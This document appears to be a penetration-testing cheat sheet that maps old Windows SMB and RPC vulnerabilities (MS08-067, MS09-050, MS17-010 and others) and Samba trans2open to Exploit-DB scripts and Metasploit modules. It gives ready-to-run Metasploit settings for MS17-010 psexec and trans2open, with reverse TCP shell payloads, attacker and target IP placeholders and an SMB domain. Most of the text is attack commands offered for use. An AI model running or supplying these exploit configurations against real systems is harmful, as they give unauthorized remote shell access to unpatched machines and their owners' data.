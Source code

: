 ```bash
'MS07-029: Vulnerability in Windows DNS RPC Interface Could Allow Remote Code Execution (935966) [CVE-2007-1748]'
***

'MS08-067: Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution (958644) (uncredentialed check) [CVE-2008-4250]'
Exploit-DB: 7132.py ***
#Metasploit Framework:
use exploit/windows/smb/ms08_067_netapi ***

'MS09-001: Microsoft Windows SMB Vulnerabilities Remote Code Execution (958687) (uncredentialed check) [CVE-2008-4834]'
***

'MS09-050: Microsoft Windows SMB2 _Smb2ValidateProviderCallback() Vulnerability (975497) (uncredentialed check) [CVE-2009-3103] [CVE-2009-2532]'
#Metasploit Framework:
exploit/windows/smb/ms09_050_smb2_negotiate_func_index

'MS10-012: Vulnerabilities in SMB Server Could Allow Remote Code Execution (971468) [CVE-2010-0020]'
***

'MS10-054: Vulnerabilities in SMB Server Could Allow Remote Code Execution (982214) [CVE-2010-2550]'
***

'MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) [CVE-2010-2729]'
***

'MS11-020: Vulnerability in SMB Server Could Allow Remote Code Execution (2508429) [CVE-2011-0661]'
***

'MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (uncredentialed check) [CVE-2017-0143]'
#Nmap Scripts: (RCE, just checking if vulnerable)
smb-vuln-ms17-010 –script-args unsafe=1
#Metasploit Framework:
exploit/windows/smb/ms17_010_eternalblue #first_one

exploit/windows/smb/ms17_010_psexec #second_one
#(IMPORTANT MS17_010_PSEXEC is a staged payload, means you need meterpreter !)
#(IMPORTANT 2, if object can\'t be found, try to modify your target !)
set SHARE ADMIN$
set SMBDomain secybr.com
set ALLOW_GUEST true
set LPORT 445
set LHOST 10.10.y.y
set RHOST 10.10.x.x
set TARGET 3       #(TARGET 1 = PowerShell / TARGET 2 = Native / TARGET 3 = MOF => share ADMIN$)
set PAYLOAD windows/shell/reverse_tcp
set VERBOSE true
set DBGTRACE true
set EXITFUNC thread
exploit -j

'Trans2open Exploitation'
# Samba 2.2.X are usually vulnerable to trans2open
# Using metasploit
use exploit/linux/samba/trans2open
set VERBOSE true
set PAYLOAD linux/x86/shell_reverse_tcp
```